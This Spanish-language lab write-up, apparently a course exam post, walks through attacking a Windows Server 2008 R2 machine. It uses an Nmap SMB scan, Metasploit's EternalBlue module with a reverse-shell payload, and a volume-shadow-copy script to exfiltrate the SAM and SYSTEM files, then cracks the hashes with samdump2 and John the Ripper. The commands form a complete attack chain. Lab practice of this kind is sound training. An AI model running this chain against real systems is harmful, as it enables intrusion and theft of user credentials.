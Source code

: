 ```yaml
---
title: PARCIAL 
date: 2024-11-03 19:45:00 -05:00
categories: [Seguridad]
tags: [Pentesting, SMB, Metasploit, Exfiltración]
---
```


## Pentesting en un Servidor Windows Server 2008 R2

**Objetivo:** Realizar un pentesting en un servidor con Windows Server 2008 R2 con el servicio SMBv1 habilitado. Identificar vulnerabilidades, explotarlas para obtener acceso y exfiltrar archivos SAM y SYSTEM.

### 2.1 Escaneo de Red y Enumeración de Servicios

Usaremos **Nmap** para descubrir servicios activos en el servidor y verificar si SMBv1 está habilitado.

- **Comando Nmap**:
    ```bash
    sudo nmap -p 445 --script=smb-vuln* 10.0.2.4
    ```
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_1.png)

- **Explicación**: `-p 445` escanea los puertos de SMB, y `--script=smb-vuln*` verifica si SMBv1 está activo. Si el output muestra `NT LM 0.12`, el servidor tiene SMBv1 habilitado.

### 2.2 Exploración de la Vulnerabilidad

Basándonos en el escaneo, identificamos si el servidor es vulnerable al exploit **EternalBlue (MS17-010)**.

- **Uso de Metasploit**:
    1. Iniciar Metasploit:
        ```bash
        msfconsole
        ```
    2. Seleccionar el módulo de exploit:
        ```bash
        use exploit/windows/smb/ms17_010_eternalblue
        ```
    - **Explicación**: Este módulo explota la vulnerabilidad MS17-010 en SMBv1 para obtener acceso remoto.
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_13.png)
### 2.3 Configuración del Exploit en Metasploit

Configuramos el exploit con los parámetros necesarios:

- **Configuración**:
    ```bash
    set RHOSTS 10.0.2.4
    set LHOST 10.0.2.9
    set payload windows/x64/meterpreter/reverse_tcp   (no lo use)
    ```
- **Explicación**:
    - `RHOSTS`: IP de la máquina objetivo.
    - `LHOST`: IP de la máquina atacante.
    - `payload`: se selecciona para obtener una reverse shell.

![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_13.png)
### 2.4 Ejecución del Exploit

Ejecutamos el exploit para obtener una conexión **Meterpreter**.

- **Comando**:
    ```bash
    exploit
    ```
- **Indicador de éxito**: Ver un mensaje como `Meterpreter session X opened`, que confirma la conexión.

### 2.5 Exfiltración de Archivos SAM y SYSTEM

Para extraer los archivos SAM y SYSTEM, utilizamos un script **Volume Shadow Copy**.

1. **Subir el script vssown.vbs**:
    ```bash
    upload /path/to/vssown.vbs C:\\Windows\\Temp\\vssown.vbs
    ```
2. **Ejecutar el script**:
    ```bash
    execute -f "C:\\Windows\\Temp\\vssown.vbs"
    ```
3. **Copiar archivos SAM y SYSTEM**:
    ```bash
    download C:\\Windows\\Temp\\SAM /tmp/SAM
    download C:\\Windows\\Temp\\SYSTEM /tmp/SYSTEM
    ```

    ![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_9.png)

### 2.6 Análisis de los Archivos Exfiltrados

En la máquina atacante, usamos **samdump2** para extraer los hashes y luego intentamos descifrarlos con **John the Ripper**.
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_9.png)
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_10.png)
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_11.png)
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_12.png)

- **Extracción de Hashes**:
    ```bash
    samdump2 /tmp/SYSTEM /tmp/SAM > hashes.txt
    ```
- **Descifrar Hashes**:
    ```bash
    john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
    ```

Estas herramientas permiten identificar y descifrar contraseñas de usuarios del sistema objetivo.
